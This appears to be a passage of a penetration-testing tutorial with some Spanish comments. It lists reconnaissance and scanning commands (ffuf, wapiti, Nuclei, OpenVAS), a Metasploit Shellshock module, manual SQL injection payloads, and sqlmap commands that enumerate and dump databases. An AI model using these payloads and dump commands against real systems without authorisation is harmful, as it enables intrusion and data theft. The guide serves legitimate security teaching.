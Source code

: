 #### Web application scanning:
```bash
# Directory/file discovery
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://ejemplo.com/FUZZ

# Parameter discovery
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://ejemplo.com/index.php?FUZZ=test

# Subdomain discovery
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://FUZZ.ejemplo.com

# Web vulnerability scanning
wapiti -u http://ejemplo.com
sqlmap -u "http://ejemplo.com/page.php?id=1" --dbs
```

### 3. **Vulnerability Assessment**

#### Automated vulnerability scanners:
```bash
# OpenVAS (comprehensive)
sudo gvm-setup
sudo gvm-start
# Acceder via web: https://localhost:9392

# Nessus (commercial, very good)
# Descargar desde tenable.com

# Nuclei (modern, fast)
nuclei -u http://ejemplo.com -t /root/nuclei-templates/

# Manual vulnerability analysis
searchsploit apache 2.4.29
msfconsole
msf6 > search apache
msf6 > use exploit/linux/http/apache_mod_cgi_bash_env_exec
```

### 4. **Exploitation**

#### Common exploitation techniques:

**SQL Injection:**
```bash
# Manual testing
' OR '1'='1
' UNION SELECT null,version(),null--
' OR 1=1--

# SQLMap automated
sqlmap -u "http://ejemplo.com/login.php" --data="user=admin&pass=admin" --dbs
sqlmap -u "http://ejemplo.com/page.php?id=1" --dump
```
